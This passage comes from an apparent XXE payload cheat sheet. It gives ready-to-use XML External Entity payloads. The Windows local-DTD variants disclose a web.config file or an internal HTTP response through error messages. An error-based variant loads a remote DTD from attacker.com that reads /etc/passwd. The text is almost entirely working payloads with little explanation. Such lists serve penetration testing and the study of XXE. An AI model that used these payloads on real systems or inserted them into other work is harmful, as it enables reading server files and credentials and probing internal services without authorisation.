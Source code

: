 #### Windows Local DTD

Payloads from [infosec-au/xxe-windows.md](https://gist.github.com/infosec-au/2c60dc493053ead1af42de1ca3bdcc79).

* Disclose local file

  ```xml
  <!DOCTYPE doc [
      <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
      <!ENTITY % SuperClass '>
          <!ENTITY &#x25; file SYSTEM "file://D:\webserv2\services\web.config">
          <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://t/#&#x25;file;&#x27;>">
          &#x25;eval;
          &#x25;error;
        <!ENTITY test "test"'
      >
      %local_dtd;
    ]><xxx>anything</xxx>
  ```

* Disclose HTTP Response

  ```xml
  <!DOCTYPE doc [
      <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
      <!ENTITY % SuperClass '>
          <!ENTITY &#x25; file SYSTEM "https://erp.company.com">
          <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://test/#&#x25;file;&#x27;>">
          &#x25;eval;
          &#x25;error;
        <!ENTITY test "test"'
      >
      %local_dtd;
    ]><xxx>anything</xxx>
  ```


### Error Based - Using Remote DTD

**Payload to trigger the XXE**

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```

**Content of ext.dtd**

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
